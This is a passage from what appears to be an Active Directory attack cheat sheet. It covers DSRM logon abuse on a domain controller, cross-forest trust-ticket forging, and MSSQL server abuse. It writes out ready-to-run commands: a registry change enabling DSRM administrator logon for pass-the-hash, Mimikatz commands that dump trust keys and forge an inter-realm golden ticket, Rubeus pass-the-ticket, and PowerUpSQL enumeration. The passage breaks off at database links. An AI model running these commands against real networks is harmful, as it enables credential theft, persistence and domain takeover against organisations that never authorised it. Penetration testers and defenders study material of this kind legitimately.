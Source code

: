 ```
Set-ItemProperty "HKLM:\\System\\CurrentControlSet\\Control\\Lsa\\" -Name "DsrmAdminLogonBehaviour" -Value 2 -Verbose
```

Then just PTH to get local admin access on DC!

## **Cross Forest Attacks**

### **Trust Tickets**

_If we have Domain Admin rights on a Domain that has Bidirectional Trust relationship with an other forest we can get the Trust key and forge our own inter-realm TGT._

⚠️ The access we will have will be limited to what our DA account is configured to have on the other Forest!

- Using Mimikatz:
    
    ```
    #Dump the trust key
    Invoke-Mimikatz -Command '"lsadump::trust /patch"'Invoke-Mimikatz -Command '"lsadump::lsa /patch"'#Forge an inter-realm TGT using the Golden Ticket attack
    Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<OurDomain> /sid:
    <OurDomainSID> /rc4:<TrustKey> /service:krbtgt /target:<TheTargetDomain> /ticket:
    <PathToSaveTheGoldenTicket>"'
    ```
    
    ❗ Tickets -> .kirbi format
    
    Then Ask for a TGS to the external Forest for any service using the inter-realm TGT and access the resource!
    
- Using Rubeus:
    
    `.\\Rubeus.exe asktgs /ticket:<kirbi file> /service:"Service's SPN" /ptt`
    

### **Abuse MSSQL Servers**

- Enumerate MSSQL Instances: `Get-SQLInstanceDomain`
    
- Check Accessibility as current user:
    
    ```
    Get-SQLConnectionTestThreaded
    Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
    ```
    
- Gather Information about the instance: `Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose`
    
- Abusing SQL Database Links:
    
    _WUT IS DIS?: A database link allows a SQL Server to access other resources like other SQL Server. If we have two linked SQL Servers we can execute stored procedures in them. Database links also works across Forest Trust!_
    
